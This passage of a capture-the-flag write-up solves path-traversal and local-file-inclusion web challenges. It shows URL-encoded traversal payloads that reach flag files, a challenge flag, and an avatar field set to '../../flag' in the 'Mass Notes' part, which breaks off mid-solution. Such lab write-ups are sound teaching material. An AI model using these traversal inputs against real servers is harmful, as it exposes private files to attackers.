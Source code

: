 ```js
fs.writeFileSync(path.join(__dirname, "flag.name"), process.env.FLAG_NAME);
fs.writeFileSync(path.join("/tmp", process.env.FLAG_NAME), process.env.FLAG);
```

* `flag.name` and `process.env.FLAG` there are env of flag, `path.join` it concatenated the current directory.

### Attack
* I used Burp Suite send request + '/flag.name'  with GET medthod and server response `Cannot GET /flag.name` =))))
 ![](https://i.imgur.com/SvW7TGd.png)
 
* I try `Path Traversal` vulnerability with url encoded payload `files/images/..%2f..%2fflag.name` and server response file name `imaflagimaflag` i think it contain flag =))) , nice ^_^
 ![](https://i.imgur.com/UmTduFp.png)
 
 * `/files/binary/:name` is endpoint because `path.resolve` only accepted if you send absolute path let's get flag i send payload `/files/binary/%2ftmp%2fimaflagimaflag` and server reponse flag =)))
   ![](https://i.imgur.com/DyYsoJ0.png)
  * FLAG `INTENT{absolutely_great_job_with_the_absolute_path}`
 
 ----------------------------------------------------------------------------------------------------------------------------------
 
 # Mass Notes
* Level: None 
* Technique: LFI - Local File Inclusion
* Description: We know the flag is on the Mass Notes servers, can you get it for us?
# Solution
* Over view the challenge have a note you can input everything you want, first look i think trigger xss but no :))
![](https://i.imgur.com/KCXBDfW.png)
* I `Ctrl + u` view page source 
![](https://i.imgur.com/Ur5K5CB.png)
* `img.src = "/avatar/" + note._id + ".png";` server create image `png` with `node._id` from note you created,  `/avatar/`is a path + `.png`
### Attack
* I input some contents in note and submit, server response encoded in JSON in the browser url bar 
![](https://i.imgur.com/cZdyRuY.png)
```text
https://mass-notes.chal.intentsummit.org/note.html?note=%7B%22title%22%3A%22hacked%20by%20d4rkp0w4r%22%2C%22content%22%3A%22haha%22%2C%22avatar%22%3A%22default_1.png%22%2C%22_id%22%3A%226197afd9ccfc2f0f0fa4e9e5%22%2C%22__v%22%3A0%7D
```
* I conducted decode url 
![](https://i.imgur.com/Yxu3jt0.png)
```text
https://mass-notes.chal.intentsummit.org/note.html?note={"title":"hacked by d4rkp0w4r","content":"haha","avatar":"default_1.png","_id":"6197afd9ccfc2f0f0fa4e9e5","__v":0}
```
I think i finished solve this challenge i used curl command for get flag but no it's error :))
```bash
$ curl -k https://mass-notes.chal.intentsummit.org/avatar/6197afd9ccfc2f0f0fa4e9e5.png
Error: ENOENT: no such file or directory, open '/app/avatars/default_1.png'
```
* The error show try open file name `default_1.png` and didn't found it. default path is /app/avatars so i need to get up two levels in path traversal.
* I used Burp Suite catch a request and insert `../../flag` into `"avatar":"../../flag"` , server response new id 